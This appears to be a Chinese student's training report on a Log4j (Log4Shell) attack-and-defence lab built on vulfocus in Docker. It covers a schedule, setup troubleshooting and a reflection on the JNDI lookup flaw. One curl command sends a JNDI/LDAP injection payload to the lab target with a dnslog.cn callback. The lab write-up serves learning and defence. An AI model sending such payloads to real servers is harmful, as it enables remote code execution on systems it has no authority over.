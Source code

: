 # 个人报告

### 一、工作内容：

|   日期    |                日程                 |
| :-------: | :---------------------------------: |
| 7.10-7.15 |            观看教学视频             |
| 7.17-7.19 |        环境配置及修理虚拟机         |
| 7.20-7.25 | 漏洞检测与漏洞利用（获取反弹shell） |
|   7.26    |  **对漏洞攻击进行检测和识别处理**   |
|   7.27    |      漏洞利用的缓解与漏洞修复       |
|   7.28    |            报告整理编写             |

其中主要工作内容为蓝队**对漏洞攻击进行持续检测和识别处理**。但由于对攻击进行检测意味着需要完成一次漏洞攻击，所以漏洞利用获取反弹shell的部分也有涉及。漏洞修复与报告整理部分为小组成员共同完成。

### 二、部分工作内容记录

- [7.17环境配置及修理虚拟机](环境配置及修理虚拟机)

- 7.20-7.25漏洞利用

  靶机执行代码启动docker

  ```bash
  # 进入start.sh所在目录下
  $ cd ctf-games/fofapro/vulfocus
  
  # 开启管理员权限
  $ sudo su
  
  # 启动第一个docker
  $ bash start.sh
  ```

  进入`vulfocus`界面，开启映射端口，并在`dns`网站获取子域名，在攻击者主机执行代码

  ```bash
  # 替换为vulfocus映射端口和dns子域名
  
  curl -X GET http://`192.168.73.128:55520`/hello?payload=$%7Bjndi:ldap://`wfe5af.dnslog.cn`/exp%7%0A
  ```

  回到`dnslog.cn`，查询记录。

  ![attack](img/attack.jpg)

- [7.26漏洞检测与威胁识别](漏洞检测与威胁识别)

### 三、问题与解决

1. Docker启动报错`no such container`或与已有容器冲突

   **解决**：重新创建容器，若是未正确创建容器，则先删除后创建。相关代码如下：

   ```bash
   # 查找容器 ID
   $ docker ps -a
   
   # 删除容器
   $ docker rm <CONTAINER ID>
   
   # 重新创建容器
   $ docker run <IMAGE NAME>
   ```

2. 使用端口时显示端口已被占用

   **解决**：看清输出信息，查看所要使用的端口是否与默认监听端口有冲突，如本次juice-shop的端口就需要修改`webgoat8`默认监听 8088 端口，避免和 juice-shop的端口占用产生冲突。

3. 靶机进入容器终端后攻击者未同步

   **解决**：执行`docker rm <CONTAINER ID>`命令时容器ID使用错误，使用了`vulfocus_vul-focus_1`的id，`docker ps`查询容器状态表格修改后正常运行。

### 四、个人反思

本次漏洞攻防实训由于小组成员只能线上见面难度增加，但仍在大家共同的努力下学到了很多。

第一天看到`Log4j`的原理有被难到，后来慢慢地理解到这其实就是一个基于Java的日志记录工具，它存在于`Log4`j的`JNDI`查找功能中，而这个查找有一个设计缺陷。

具体来说，这个功能允许开发者在日志配置文件中使用类路径资源名称作为日志输出的地方，当Log4j需要将日志写入到这些位置时，它会使用Java命名和目录接口进行查找，并在找到资源后写入日志。于是攻击者可以通过特殊构造的请求，利用此漏洞向Log4j发送恶意请求，从而触发远程代码执行漏洞，进而获得服务器上的完全控制权限，实现漏洞利用攻击。

简单来说，就是输入的字符串只要是符合特定形式（`${`）都可以进行对应的操作，而输入时又没有添加限制，则输入者可以利用此漏洞随意编写恶意请求。

同样，在后续的docker使用中，对于容器的使用如果出现问题往往需要删除，全部从头再来，非常考验耐心，所以真的非常需要对于每一步操作所代表含义的详细理解，才能减少在执行代码时出错。

其实可以感觉到，有时候对于网络安全的学习者来说，因为安全的维护需要不断接触安全漏洞，“在危险的边缘反复横跳”，所以更需要对于法律的坚定认知与坚决维护。正如黄老师在课件上多次强调的，知法守法。